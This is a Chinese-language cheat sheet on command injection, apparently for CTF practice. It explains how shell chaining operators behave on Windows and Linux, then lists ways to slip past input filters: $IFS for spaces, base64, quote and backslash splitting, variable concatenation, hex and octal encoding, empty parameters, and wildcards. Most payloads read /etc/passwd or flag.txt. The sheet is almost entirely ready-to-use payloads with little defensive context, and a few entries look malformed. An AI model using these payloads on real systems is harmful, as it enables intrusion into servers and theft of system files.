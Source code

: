 # 命令注入
命令|windows|linux
-|-|-
ping 127.0.0.1&#124;ipconfig;|只执行后面|只执行后面
ping 127.0.0.1&#124;&#124;ipconfig;|先执行前面，前面出错才会执行后面|先执行前面，前面出错才会执行后面
ping 127.0.0.1&ipconfig|两个全部执行并且任意一个出错不影响另外一个命令执行|两个全部执行并且任意一个出错不影响另外一个命令执行，有时候需要多试几次才可以成功
ping 127.0.0.1&&ipconfig|两个命令必须全部正确才可执行全部|后面出错不影响前面的语句，前面出错就无法执行所有的语句

# 空格替换
- `<`
- `${IFS}`
- `$IFS%9`

# base64绕过
- echo 'cat' | base64
- echo 'base64' | base64 -d` flag.txt

# 连字符 ''  ""  ``  \
- cat fl'a'g.txt

# 拼接绕过
- $a=c;$b=at;$a$b /flag.txt

# 通配符绕过
- /???/??s??4 /flag.txt

# RCE绕过

cmd1 | cmd2 只执行cmd2

cmd1 || cmd2 只有当cmd1执行失败后，cmd2才被执行

cmd1 & cmd2 先执行cmd1，不管是否成功，都会执行cmd2

cmd1 && cmd2 先执行cmd1，cmd1执行成功后才执行cmd2，否则不执行cmd2

(Linux还支持分号  ;  )cmd1;cmd2 按顺序依次执行，先执行cmd1再执行cmd2

1. 变量绕过

a=c;b=a;c=t;

$a$b$c /etc/passwd

2. 16编码绕过

"\x73\x79\x73\x74\x65\x6d"("cat /etc/passwd");

3. oct编码绕过

$(printf "\154\163")//ls命令

4. 拼接绕过

sy.(st).em)(whoami);

c''a''t /etc/passwd//单引

c""a""t /etc/passwd//双引

c``a``t /etc/passwd/反单引

c\a\t /etc/passwd//反斜线

$*和$@，$x(x代表1-9)，${x}(x>=10)

比如 ca${21}t a.txt 表示 cat a.txt 在没有传入参数的情况下，这些特殊字符默认为空，如下:

wh$1oami

who$@ami

whoa$*mi

5. 利用未赋值变量绕过

cat /etc$u/passwd

cat$u /etc/passwd

6. 通配符绕过

cat /passwd：

??? /e??/?a????

cat /e*/pa*